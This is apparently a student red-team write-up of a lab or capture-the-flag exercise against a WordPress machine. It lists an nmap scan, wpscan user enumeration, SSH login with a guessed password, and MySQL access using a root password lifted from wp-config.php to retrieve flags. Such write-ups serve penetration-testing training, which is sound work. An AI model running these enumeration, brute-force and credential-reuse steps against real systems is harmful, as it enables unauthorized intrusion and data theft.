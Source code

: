 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:  

Command: `nmap -sV 192.168.1.110`

![](/Images/Nmap-Scan.PNG "Nmap Scan results")

This scan identifies the services below as potential points of entry:  

**Target 1**
  - Port22/TCP Open SSH  
  - Port80/TCP Open HTTP  
  - Port111/TCP Open rcpbind  
  - Port139/TCP Open netbios-ssn  
  - Port 445/TCP Open netbios-ssn  
 
### Critical Vulnerabilities

The following vulnerabilities were identified on each target:  

**Target 1**
  - CVE-2019-6120 Username Enumeration  
  - CWE-521 Weak password requirements  
  - CWE-916 Use of password hash with insufficient computational effort  

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation  

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:  

**Target 1**
  - **flag1: b9bbcb33ellb80be759c4e844862482d**
    - **Exploit Used:**  
      - Ran a WP scan to enumerate the users of the known running wordpress site  
      - Command: `wpscan --url http://192.168.1.110 --enumerate u`  
      ![](/Images/Wordpress-enumerate-scan-results.PNG "Enumerate-Scan-Results")  
      - The next Step was to brute force Michael and guess his password  
      - It was a very weak password and easily guessed: michael  
    -  Once michaels password was guessed, we next needed to SSH in and find flag 1  
       - It was found in var/www/html in a service.html file found here  
    -  Commands used:  
       - `ssh michael@192.168.1.110`  
       - `password: michael`  
       - `cd /var/www/html`    
       - `nano service.html`  
     
  ![](/Images/Flag-1.PNG "Flag 1 Found")  
  
  - **flag2: fc3fd58dcdad9ab23faca6e9a3e581c**
    - **Exploit Used:**
      - Flag 2 uses most of the same exploits as flag 1  
      - Still connected to user Michael we can find flag 2 in /var/www in a file called "flag 2"  
   
    ![](/Images/Flag-2.PNG "Flag 2 Found")  
    
  - **flag3: afc01ab56b50591e7dccf93122770cd2**  
     - **Exploit Used:**  
       - While still connected to user Michael through SSH we need to access the MySQL database  
       - First step is finding the wp-config.php file which has the information we need to login to the database server    
     - Commands used:  
       - `mysql -u root -p'R@v3nSecurity' -h 127.0.0.1`    
       - `show databases;`  
       - `use wordpress;`  
       - `show tables;`  
       - `select * from wp_posts;`  \
      
   ![](/Images/found-flag-3.PNG "Flag 3 Found")    
   
       
